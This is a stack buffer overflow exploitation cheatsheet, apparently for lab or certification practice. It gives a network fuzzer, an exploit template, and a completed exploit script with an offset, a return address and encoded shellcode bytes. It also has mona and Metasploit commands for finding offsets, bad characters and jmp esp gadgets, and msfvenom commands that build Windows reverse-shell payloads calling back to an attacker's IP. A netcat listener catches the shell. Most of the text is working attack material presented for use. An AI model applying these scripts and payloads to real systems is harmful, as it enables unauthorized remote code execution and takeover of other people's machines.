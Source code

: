 # BOF Cheatsheet

### fuzzer.py

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

### exploit.py

<pre class="language-python"><code class="lang-python">#!/usr/bin/env python3

<strong>import socket
</strong>
ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
</code></pre>

### exploit\_bytes.py

```python
offset = 1308
overflow = "A" * offset
retn = "\xba\x11\x80\x14"
padding = "\x90" * 16
payload="\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e\x5f\x35\xae\x3d\x83\xee\xfc\xe2\xf4 \xa3\xdd\x2c\x3d\x5f\x35\xce\xb4\xba\x04\x6e\x59\xd4\x65\x9e\xb6\x0d\x39\x25\x6f\x4b\xbe\xdc\x15\x50\x82\ xe4\x1b\x6e\xca\x02\x01\x3e\x49\xac\x11\x7f\xf4\x61\x30\x5e\xf2\x4c\xcf\x0d\x62\x25\x6f\x4f\xbe\xe4\x01\x d4\x79\xbf\x45\xbc\x7d\xaf\xec\x0e\xbe\xf7\x1d\x5e\xe6\x25\x74\x47\xd6\x94\x74\xd4\x01\x25\x3c\x89\x04\x5 1\x91\x9e\xfa\xa3\x3c\x98\x0d\x4e\x48\xa9\x36\xd3\xc5\x64\x48\x8a\x48\xbb\x6d\x25\x65\x7b\x34\x7d\x5b\xd4 \x39\xe5\xb6\x07\x29\xaf\xee\xd4\x31\x25\x3c\x8f\xbc\xea\x19\x7b\x6e\xf5\x5c\x06\x6f\xff\xc2\xbf\x6a\xf1\ x67\xd4\x27\x45\xb0\x02\x5d\x9d\x0f\x5f\x35\xc6\x4a\x2c\x07\xf1\x69\x37\x79\xd9\x1b\x58\xca\x7b\x85\xcf\x 34\xae\x3d\x76\xf1\xfa\x6d\x37\x1c\x2e\x56\x5f\xca\x7b\x6d\x0f\x65\xfe\x7d\x0f\x75\xfe\x55\xb5\x3a\x71\xd d\xa0\xe0\x39\x57\x5a\x5d\x6e\x95\x28\xb0\xc6\x3f\x5f\x34\x15\xb4\xb9\x5f\xbe\x6b\x08\x5d\x37\x98\x2b\x54 \x51\xe8\xda\xf5\xda\x31\xa0\x7b\xa6\x48\xb3\x5d\x5e\x88\xfd\x63\x51\xe8\x37\x56\xc3\x59\x5f\xbc\x4d\x6a\ x08\x62\x9f\xcb\x35\x27\xf7\x6b\xbd\xc8\xc8\xfa\x1b\x11\x92\x3c\x5e\xb8\xea\x19\x4f\xf3\xae\x79\x0b\x65\x f8\x6b\x09\x73\xf8\x73\x09\x63\xfd\x6b\x37\x4c\x62\x02\xd9\xca\x7b\xb4\xbf\x7b\xf8\x7b\xa0\x05\xc6\x35\xd 8\x28\xce\xc2\x8a\x8e\x5e\x88\xfd\x63\xc6\x9b\xca\x88\x33\xc2\x8a\x09\xa8\x41\x55\xb5\x55\xdd\x2a\x30\x15\x7a\x4c\x47\xc1\x57\x5f\x66\x51\xe8"
buffer = overflow + retn + padding + payload
with open("exploit_bytes.txt","wb") as f:
    f.write(bytes(buffer + "\n", "latin-1"))

```

### \x01 to \xff

```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

### 1. Pattern Create

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 800
```

### 2. Finding offset where EIP overwrite happens

```bash
msf-pattern_offset -l 800 -q 42306142
```

{% hint style="info" %}
\-l: the length of the original pattern&#x20;

\-q: specify the bytes found in EIP
{% endhint %}

### 3. Find bad chars&#x20;

#### Manual method:

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
```

```bash
python2 -c "print ''.join([chr(i) for i in range(1,256)])" > exploit.txt
```

{% hint style="info" %}
Above script will generate exploit.txt that contains the raw bytes from \x01 to \xff (By default \x00 is bad char)

Use `bvi` to edit the raw hex bytes!
{% endhint %}

* Overflow the buffer to gain control of EIP register and append the entire \x01 to \xff bytearray to the shellcode.
* Use Immunity Debugger to run the program --> click on ESP register --> `Follow in Dump`
* Check the stack values against the original bytearray to figure out the bad characters.
* After finding a bad char, note it down and remove it from the bytearray shellcode and repeat the process again until the \xff appears.

#### Mona method:

```
!mona config -set workingfolder c:\Users\admin\Desktop
```

```
!mona bytearray -b "\x00"
```

```
!mona compare -f c:\Users\admin\Desktop\bytearray.bin -a <ESP addr>
```

{% hint style="info" %}
After finding a bad char, remove it and send the remaining payload again. Find the bad chars one by one (since bad chars may affect the chars adjacent to it).
{% endhint %}

### 4. Finding a jump point

```bash
!mona jmp -r esp -cpb "\x00\x0a"
```

{% hint style="info" %}
Update the -cpb option with all the badchars you identified (including \x00)
{% endhint %}

* Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

### 5. Generate payloads

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

{% hint style="info" %}
* \-f c: To select C-formatted shellcode
* \-e x86/shikata\_ga\_nai: use of the polymorphic encode shikata\_ga\_nai (It can’t be helped)
* \-b “\x00\x0a..”: specifies the bad chars
{% endhint %}

{% hint style="info" %}
* For linux --> -p linux/x86/shell\_reverse\_tcp
{% endhint %}

### 6. Prepend NOPs

```
padding = "\x90" * 16
```

{% hint style="info" %}
Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself.
{% endhint %}

### 7. Obtain shell

```
netcat -lvp 4444
```

### Troubleshooting

Some bad chars only appear when they are adjacent to certain chars. Hence, it is wise to check the hex values of the created shellcode against the values present in the stack (ESP --> Follow Dump)

#### To check hex values of created shellcode

```bash
xxd -g 1 -c 8 exploit_bytes.txt
```

{% hint style="info" %}
\-g: number of octets per group

\-c: format octets per line
{% endhint %}

#### Find Function Address

```bash
objdump -D execution-flow-windows.exe | grep <func_name>
```

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Need to convert the address to little endian format (00401530 --> \x30\x15\x40\x00)
{% endhint %}

#### Disable ASLR for Linux

```bash
echo 0 | tee /proc/sys/kernel/randomize_va_space
```
